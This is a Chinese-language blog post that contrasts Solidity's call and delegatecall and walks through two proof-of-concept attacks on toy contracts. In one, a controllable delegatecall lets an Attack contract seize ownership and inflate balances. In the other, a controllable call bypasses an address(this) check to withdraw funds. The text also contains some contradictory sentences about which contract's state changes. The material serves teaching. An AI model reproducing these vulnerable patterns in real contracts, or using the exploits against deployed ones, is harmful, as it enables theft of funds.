 ```yaml
---
title: "delegatecall与call注入"
date: 2023-07-21T0:19:30-04:00
categories:
  - blog
tags:
  - experience
---
```


## delegatecall与call注入

### delegatecall与call的区别

delegatecall与call都是用来实现跨合约之间的互相调用的，但是它俩是有区别：
 - **调用call，内置变量 msg 的值会修改为调用者（合约地址），执行环境为被调用者的运行环境**
 - **调用delegatecall，内置变量 msg 的值不会修改为调用者（EOA地址），执行环境为调用者的运行环境**

如何理解呢？咱们来看下面的代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract poc{

    address public sender;

    function calltest(address addr) external {
        addr.call(abi.encodeWithSignature("set()"));
    }

    function delegatecalltest(address addr) external {
        addr.delegatecall(abi.encodeWithSignature("set()"));
    }

}


contract test{
    address public sender;
    function set() external{
        sender = msg.sender;
    }

    function reset() external {
        sender = 0x0000000000000000000000000000000000000000;
    }
}

```

首先将poc和test合约给部署下，部署完成后poc和test合约中的状态变量sender默认是0x0000000000000000000000000000000000000000，调用poc合约中的calltest()方法后，你会发现test合约中的状态变量sender已经变为poc合约的地址了，此时test合约中的状态变量sender是0x0000000000000000000000000000000000000000。

咱们接着调用poc合约中的delegatecalltest()方法，你会发现test合约中的状态变量sender没有任何变化，而test合约中的状态变量sender已经变为msg.sender（EOA地址）了。

现在应该就能理解两者区别了吧。


### delegatecall可控

写了一个delegatecall可控场景，咱们可以控制data来修改合约所有者以及增加余额的操作。
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Token{
    mapping (address => uint256) public balance;
    address public owner;

    function delegatecalltest(address addr, bytes calldata data) external {
        addr.delegatecall(data);
    }


    function withdraw() external {
        require(owner == msg.sender,"not owner");
        payable(owner).transfer(address(this).balance);
    }

}


contract Attack{
    mapping (address => uint256) balance;
    address public owner;

    function updateowner() external {
        owner = msg.sender;
    }

    function addbalance() external {
        balance[msg.sender] +=1000;
    }

    function withdraw() external {
        require(owner == msg.sender,"not owner");
        payable(owner).transfer(address(this).balance);
    }


    function encode1() public view returns (bytes memory) {
        return abi.encodeWithSignature("updateowner()");
    }

    function encode2() public view returns (bytes memory) {
        return abi.encodeWithSignature("addbalance()");
    }   




}


```

部署Token、Attack合约，我们此时Token的owner所有者是默认值（零地址），包括balance也是默认值零，所以我们调用withdraw会失败。咱们通过调用Token合约的delegatecalltest方法来修改owner变量，addr为Attack合约，data为updateowner()函数签名。交易确认后，查看owner变量已经变成我的EOA地址了，接着我们调用withdraw方法就可以成功。当然我们也可以通过调用Token合约的delegatecalltest方法来修改owner变量，addr为Attack合约，data为addbalance()函数签名，来给自己的（EOA）地址增加余额。

总结：delegatecall可控还是比较危险的，相当于可以升级合约代码，攻击者可以添加自己的恶意代码并执行，来达到修改状态变量的目的。

### call注入
写了一个当call可控的场景，咱们可以结合call的特性，msg.sender会修改为调用者的，因此可以绕过对address(this) == msg.sender的判断，实现权限绕过提现。


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Test{
    bool public flag;
    function withdraw(address addr) external {
        require(address(this) == msg.sender,"not address(this)");
        payable (addr).transfer(address(this).balance);
        flag = true;
    }
    function calltest(bytes memory data) external {
        address(this).call(data);
    }

    function encode() public view returns (bytes memory){
        return abi.encodeWithSignature("withdraw(address)",msg.sender);

    }
}

```

部署Test合约，首先尝试直接调用withdraw方法，交易失败，因为此时address(this) == msg.sender不满足。但因为Test合约中存在call可控的方法calltest，咱们就可以绕过这个限制，此时msg.sender是Test合约地址，传入withdraw的函数签名即可完成取款。

总结：call可控只能调用原始合约中已有的方法，需要注意的是msg.sender是调用合约的地址，transfer、burn、approve那些方法都是取msg.sender值的。

